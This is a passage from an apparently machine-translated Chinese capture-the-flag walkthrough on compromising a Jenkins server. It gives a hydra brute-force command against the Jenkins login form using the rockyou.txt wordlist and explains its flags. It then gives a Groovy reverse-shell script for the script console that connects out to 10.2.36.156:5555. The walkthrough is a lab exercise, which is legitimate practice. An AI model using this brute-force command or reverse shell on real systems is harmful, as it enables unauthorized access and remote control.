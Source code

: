 ****每次尝试登录时，都需要提供上面以红色突出显示的参数。我决定使用用户名 **admin** ，因为这是 Jenkins 的默认用户名，并尝试使用这些参数强行破解密码。****

```
**hydra 127.0.0.1 -s 4444 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P rockyou.txt**
```

****九头蛇司令部的详细情况如下:****

*   ******-s** :端口号****
*   ******-f** :一旦找到密码，停止暴力破解登录页面。****
*   ******-V** :显示九头蛇的企图等细节。****
*   ******http-form-post** :表示正在使用的表单类型(即 post)。****
*   ******^USER^:** 告诉九头蛇使用字段中的用户名或列表。****
*   ******^PASS^:** 告诉九头蛇使用提供的密码列表。****
*   ******-l:** 表示单个用户名，例如“admin”(使用 **-L** 查看用户名列表)。****
*   ******-P:** 表示使用以下密码列表，例如 **rockyou.txt******

****执行这个命令导致用户 **admin** 的凭证被恢复，允许我登录到 Jenkins。****

****![](img/543136a226264dc60dd8fbc237dad3ca.png)****

****在 Google 上快速搜索会发现许多利用 Jenkins 漏洞获得反向外壳的方法。我使用的方法是利用 Jenkins 上的**脚本控制台**功能。****

****![](img/ca11b1b707c3a409538e8c6bfba83cec.png)****

****要在系统上创建一个反向 shell，我们需要使用 Groovy 脚本。既然基本都是 Java，我们可以用一个 pentestmonkey 的 Java 反向 shell。****

```
**r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.2.36.156/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()**
```

****然后，我可以监听端口 5555 上的连接，并成功获得一个反向 shell。****

****![](img/09f6c76eae2c058c2d04f3147f940097.png)****
